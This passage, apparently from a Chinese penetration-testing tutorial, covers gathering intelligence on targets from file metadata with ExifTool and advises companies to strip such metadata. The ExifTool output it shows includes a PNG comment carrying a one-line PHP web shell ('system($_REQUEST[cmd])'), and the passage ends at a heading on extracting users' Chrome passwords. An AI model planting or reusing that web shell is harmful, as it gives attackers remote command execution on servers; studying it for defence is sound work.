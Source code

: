 ### 5.2 用户习惯

#### 5.2.1 从目标文件中做信息搜集第一季

个人实例：-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930092448265.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
ExifTool可读写及处理图像、视频及音频，例如Exif、IPTC、XMP、JFIF、GeoTIFF、ICC Profile。包括许多相机的制造商信息读取，如佳能，卡西欧，大疆，FLIR，三星等-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200930092541745.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    root@kali:/home/dayu/桌面/dayuMagic# exiftool -lang zh-cn -a -u -g1 ./sample.php.png 
    ---- ExifTool ----
    ExifTool 版本                   : 11.99
    ---- System ----
    文件名                          : sample.php.png
    文件存储位置                    : .
    文件大小                        : 2.2 kB
    更新日期                        : 2020:08:26 08:42:26+08:00
    File Access Date/Time           : 2020:08:26 08:49:11+08:00
    File Inode Change Date/Time     : 2020:08:26 08:48:46+08:00
    File Permissions                : rw-r--r--
    ---- File ----
    文件格式                        : PNG
    File Type Extension             : png
    MIME Type                       : image/png
    ---- PNG ----
    像宽                            : 200
    像高                            : 150
    Bit Depth                       : 8
    Color Type                      : RGB
    压缩方案                        : Deflate/Inflate
    Filter                          : Adaptive
    Interlace                       : Noninterlaced
    文件改变的日期和时间            : 2019:09:05 13:29:11
    注释                            : <?php system($_REQUEST[cmd]); ?>
    ---- PNG-pHYs ----
    Pixels Per Unit X               : 2835
    Pixels Per Unit Y               : 2835
    Pixel Units                     : meters
    ---- Composite ----
    图像尺寸                        : 200x150
    Megapixels                      : 0.030
    
        

在大型内网渗透中，尤其是针对办公机的渗透，需要熟知目标集体或者个人的作息时间，工作时间，文档时间，咖啡时间，或者需要从某些文件中获取对方的真实拍摄地坐标等。那么无疑需要快速的从大量文件中筛选信息诉求。当目标越复杂，文件中的信息搜集就更为重要。如文档作者，技术文章作者，财务文档作者等，熟知在大量人员，获取对方职务，大大减少渗透过程中的无用性，重复性，可见性。与暴露性。而作为公司，应该熟悉相关文档的内置属性，尤其是在共享文件服务器上，删除或者复写敏感信息来降低企业安全风险。

本篇意旨企业安全在处理本公司相关敏感文件以及重要文件应做好更多的防范，尤其是重要部门，如研发，财务等。

* * *

#### 5.2.2 获取当前系统所有用户的谷歌浏览器密码
